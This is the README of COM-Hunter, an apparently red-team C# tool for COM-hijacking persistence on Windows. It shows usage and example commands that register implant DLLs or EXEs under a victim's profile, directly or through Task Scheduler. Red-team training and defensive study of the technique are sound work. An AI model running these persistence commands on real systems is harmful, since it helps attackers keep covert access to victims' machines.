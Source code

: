 # COM-Hunter

COM Hijacking VOODOO

<p align="center">
  <img width="500" height="400" src="/Pictures/logo2.png"><br /><br />
  <img alt="GitHub License" src="https://img.shields.io/github/license/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=purple">
  <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/nickvourd/COM-Hunter?logoColor=yellow"><br />
  <img alt="GitHub forks" src="https://img.shields.io/github/forks/nickvourd/COM-Hunter?logoColor=red">
  <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/nickvourd/COM-Hunter?logoColor=blue">
  <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=green">
</p>

## Description

COM-Hunter is a COM Hijacking persistnce tool written in C#.

![Static Badge](https://img.shields.io/badge/.NET-4.8-blue?style=flat&logoSize=auto)
![Static Badge](https://img.shields.io/badge/Version-2.0%20(Gold Rose)-red?link=https%3A%2F%2Fgithub.com%2Fnickvourd%2FRocabella%2Freleases)

The following list explains the available modes:

- **Search Mode**: Searches for CLSIDs based on `InprocServer32`, `LocalServer32`, and registry hives `HKLM` and `HKCU`.
- **Classic Persist Mode**: Performs classic COM hijacking persistence using `LocalServer32` or `InprocServer32`.
- **Task Scheduler Mode**: Automatically establishes COM hijacking persistence via Task Scheduler using `LocalServer32` or `InprocServer32`.

## Disclaimer

The authors and contributors of this project are not liable for any illegal use of the tool. It is intended for educational purposes only. Users are responsible for ensuring lawful usage.

## Table of Contents

- [COM-Hunter](#com-hunter)
    - [Description](#description)
    - [Disclaimer](#disclaimer)
    - [Table of Contents](#table-of-contents)
    - [Acknowledgement](#acknowledgement)
    - [Usage](#usage)
    - [Examples](#examples)
    - [References](#references)

## Acknowledgement
 
This project created with :heart: by [@nickvourd](https://x.com/nickvourd) && [@S1ckB0y1337](https://x.com/S1ckB0y1337).

Special thanks to [Marios Gyftos](https://www.linkedin.com/in/marios-gyftos-a6b62122/) for his invaluable assistance during the beta testing phase of this tool.

:information_source: Inspired by the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) from [@zeropointsecltd](https://x.com/zeropointsecltd).

## Usage

```
 ██████╗ ██████╗ ███╗   ███╗      ██╗  ██╗██╗   ██╗███╗   ██╗████████╗███████╗██████╗
██╔════╝██╔═══██╗████╗ ████║      ██║  ██║██║   ██║████╗  ██║╚══██╔══╝██╔════╝██╔══██╗
██║     ██║   ██║██╔████╔██║█████╗███████║██║   ██║██╔██╗ ██║   ██║   █████╗  ██████╔╝
██║     ██║   ██║██║╚██╔╝██║╚════╝██╔══██║██║   ██║██║╚██╗██║   ██║   ██╔══╝  ██╔══██╗
╚██████╗╚██████╔╝██║ ╚═╝ ██║      ██║  ██║╚██████╔╝██║ ╚████║   ██║   ███████╗██║  ██║
 ╚═════╝ ╚═════╝ ╚═╝     ╚═╝      ╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═══╝   ╚═╝   ╚══════╝╚═╝  ╚═╝

                                   Version: 2.0
                             @nickvourd && @S1ckB0y1337
                  ~ Inspired during the RTO course by @zeropointsecltd ~

Usage: COM_Hunter.exe <mode> <options>

[+] Modes:
    search             Search Mode
    persist            Classic Persist Mode
    tasksch            Task Scheduler Mode

[+] Search Mode:
Usage:  COM-Hunter.exe search <CLSID> <options>
    -a, --all                   Search DLL and EXE implementations in HKLM and HKCU
    -i, --inprocserver32        Search DLL implementations in HKLM and HKCU
    -l, --localserver32         Search EXE implementations in HKLM and HKCU
    -m, --machine               Search DLL and EXE implementations in HKLM
    -u, --user                  Search DLL and EXE implementations in HKCU

[+] Classic Persist Mode:
Usage:  COM-Hunter.exe persist <CLSID> <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation

[+] Task Scheduler Mode:
Usage:  COM-Hunter.exe tasksch <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation
```

## Examples

:information_source: Search DLL and EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search 01575CFE-9A55-4003-A5E1-F38D1EBDCBE1 -a
```

:information_source: Search EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l
```

:information_source: Advanced search EXE implementations in HKLM:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l --machine
```

:information_source: Search EXE and DLL implementations in HKCU:

```
.\COM-Hunter.exe search AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 --user
```

:information_source: Perform classic persistence using DLL implementation:

```
.\COM-Hunter.exe persist AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 C:\Users\victim\Desktop\implant.dll -i
```

:information_source: Perform classic persistence using EXE implementation:

```
.\COM-Hunter.exe persist "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" C:\Users\victim\Desktop\implant.exe --localserver32
```

:information_source: Perform persistence via Task Scheduler using DLL implementation:

```
.\COM-Hunter.exe tasksch C:\Users\victim\Desktop\implant.dll --inprocserver32
```

## References

- [Persistence: “the continued or prolonged existence of something”: Part 2 – COM Hijacking by MDSec](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/)
- [Abusing the COM Registry Structure (Part 2): Hijacking & Loading Techniques by BOHOPS](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)
- [Userland Persistence with Scheduled Tasks and COM Handler Hijacking by Enigma0x3](https://enigma0x3.net/2016/05/25/userland-persistence-with-scheduled-tasks-and-com-handler-hijacking/)
- [COM Objects Hijacking by Virus Total](https://blog.virustotal.com/2024/03/com-objects-hijacking.html)
